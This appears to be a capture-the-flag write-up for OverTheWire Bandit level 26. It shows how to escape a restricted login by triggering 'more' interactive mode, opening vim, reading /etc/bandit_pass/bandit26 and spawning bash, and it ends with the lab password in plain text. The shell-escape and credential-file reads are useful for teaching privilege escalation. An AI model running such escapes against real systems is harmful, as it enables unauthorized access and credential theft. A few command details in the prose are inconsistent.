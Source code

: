 Vim is a text editor. It enables you to run shell commands as well. It is possible to use vim to break out of a restricted environment and spawn a shell. To spawn the user’s default shell, the command `:shell` is used. To change the shell to ‘/bin/bash’ the command is `:set shell=/bin/sh`

```sh
cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
ls -la /usr/bin/showtext
-rwxr-xr-x 1 root root 53 May  7  2020 /usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```
When trying to log in, we see that the connection is closed because ‘/usr/bin/showtext’ is executed.

```sh
$ ssh -i bandit26.sshkey bandit26@localhost
...
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to bandit.labs.overthewire.org closed.
```
What exactly has happened? The text in ’text.txt’ is very short, meaning the whole text can immediately be displayed. more does not need to go into command/interactive mode. If we make the terminal window smaller, more will go into command mode. We can then use v to go into vim. Now we can rescale the window.

Vim is now opened as bandit26 and we can do different things to retrieve the password. With `:e /etc/bandit_pass/bandit26` we can open the password file and read the password. If we want a shell, we could try the :shell command that vim offers. This command, however, uses the user’s default shell. What we need to do instead is to set the default shell of the user in vim to a useful shell, like `\bin\bash`. The commands look like the following: `:set shell=/bin/bash` and then use `:shell`. Finally, we have a shell and can get the password for the user.

```sh
v
:e /etc/bandit\_pass/bandit26
# OR even better a shell
# resize
:set shell=/usr/bin/bash
:shell
```


**username:** bandit26
**password:** c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
